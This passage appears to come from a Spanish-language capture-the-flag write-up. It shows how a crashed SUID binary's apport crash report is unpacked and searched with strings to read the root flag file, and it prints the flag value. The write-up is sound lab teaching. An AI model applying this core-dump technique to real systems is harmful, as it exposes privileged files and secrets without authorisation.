 Sigue estando ahí pero si nos volvemos a la sesión con **`fg`**, vemos que se ha producido el error.

#### Después de la excepción:
```console
dasith@secret:/opt$ fg
./count
Bus error (core dumped)
```

Con esto se ha generado un nuevo archivo en **`/var/crash`**

```console
dasith@secret:/opt$ cd /var/crash && ls
_opt_count.0.crash  _opt_count.1000.crash  _opt_countzz.0.crash
```

Creamos un nuevo directorio dentro de la ruta **`/tmp`** con el nombre que queramos:

```console
dasith@secret:/opt$ mkdir /tmp/pwned
```

Existe una herramienta llamada **`apport-unpack`** para poder desempacar este tipo de reportes.

```console
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/pwned
dasith@secret:/opt$ cd /tmp/pwned && ls -l
total 428
-rw-r--r-- 1 dasith dasith      5 Mar 27 03:19 Architecture
-rw-r--r-- 1 dasith dasith 380928 Mar 27 03:19 CoreDump
-rw-r--r-- 1 dasith dasith     24 Mar 27 03:19 Date
-rw-r--r-- 1 dasith dasith     12 Mar 27 03:19 DistroRelease
-rw-r--r-- 1 dasith dasith     10 Mar 27 03:19 ExecutablePath
-rw-r--r-- 1 dasith dasith     10 Mar 27 03:19 ExecutableTimestamp
-rw-r--r-- 1 dasith dasith      5 Mar 27 03:19 ProblemType
-rw-r--r-- 1 dasith dasith      7 Mar 27 03:19 ProcCmdline
-rw-r--r-- 1 dasith dasith      4 Mar 27 03:19 ProcCwd
-rw-r--r-- 1 dasith dasith     61 Mar 27 03:19 ProcEnviron
-rw-r--r-- 1 dasith dasith   2144 Mar 27 03:19 ProcMaps
-rw-r--r-- 1 dasith dasith   1336 Mar 27 03:19 ProcStatus
-rw-r--r-- 1 dasith dasith      1 Mar 27 03:19 Signal
-rw-r--r-- 1 dasith dasith     29 Mar 27 03:19 Uname
-rw-r--r-- 1 dasith dasith      3 Mar 27 03:19 UserGroups
```

Finalmente extraemos los strings del archivo CoreDump y con esto logramos ver entre todos los resultados la flag de root.

```console
p3ntest1ng:~$ strings CoreDump
...[snip]...
/root/root.txt
6f9a8c764f59ac05f1df356622bb10e5
...[snip]...
```
